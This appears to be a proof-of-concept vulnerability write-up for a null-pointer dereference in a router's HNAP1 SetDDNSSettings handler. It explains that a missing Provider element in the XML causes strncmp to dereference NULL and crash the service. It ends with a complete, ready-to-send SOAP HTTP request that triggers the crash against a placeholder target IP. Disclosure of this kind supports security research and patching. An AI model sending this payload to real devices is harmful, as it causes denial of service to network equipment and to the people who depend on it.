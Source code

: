 

## poc

The vulnerability exists in the XML parsing logic of the SetDDNSSettings HNAP1 function `sub_459180`:

![alt text](image-3.png)


When the `Provider` element is missing from the XML request, `mxmlFindElement()` returns NULL, resulting in the Text variable being assigned a null pointer. At line 47, this null pointer is passed as a function parameter to `strncmp()`, which dereferences the null pointer without performing a null check, causing the application to crash.

![alt text](image-4.png)

### request
```xml
POST /HNAP1/ HTTP/1.1
Host: [TARGET_IP]
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetDDNSSettings"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetDDNSSettings xmlns="http://purenetworks.com/HNAP1/">
      <Enable>true</Enable>
      <Username>test</Username>
      <Password>test</Password>
      <Hostname>test.example.com</Hostname>
    </SetDDNSSettings>
  </soap:Body>
</soap:Envelope>
```
